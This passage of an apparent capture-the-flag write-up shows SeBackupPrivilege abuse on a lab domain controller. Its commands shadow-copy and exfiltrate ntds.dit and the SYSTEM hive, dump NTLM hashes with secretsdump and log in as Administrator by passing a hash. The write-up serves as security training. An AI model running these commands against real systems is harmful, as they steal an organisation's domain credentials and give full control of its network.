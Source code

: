 > Make sure the lines and with `CRLF`
{: .prompt-warning}

> To better understand this script and learn other methods on abusing `SeBackupPrivilege`, refer to this [Blog Post](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58)
{: .prompt-tip}

From `evil-winrm` shell, we created the shadow copy of the `C:/` drive using `diskshadow`, then we created a copy of `ntds.dit` using `robocopy`
and also copied the `system` registry hive.

Lastly, we exfiltrated both files.

```powershell
upload shadow.dsh
diskshadow.exe /s shadow.dsh
robocopy /B F:\Windows\NTDS . ntds.dit
reg save hklm\system system
download ntds.dit
download system
```

Now that we have `ntds.dit` and `system` hive, we can retrieve users' NTLM hashes.

```sh
secretsdump.py -ntds ntds.dit -system system LOCAL -just-dc-ntlm | tee ntds.ntlm
```

![]({{page.assets_path}}/016.png)

Finally, we accessed the machine as `Administrator` and got the root flag.

```sh
evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
```

![]({{page.assets_path}}/017.png)

## **Clean up**

After finishing, it is always a good practice to revert every change you made in the environment.

Deleted the shadow copy using the following script.

{: file="shadow_delete.dsh"}
```
delete shadows all
```

From `evil-winrm`

```powershell
upload shadow_delete.dsh
diskshadow.exe /s shadow_delete.dsh
```

Changed back the password of the user `audit2020`.
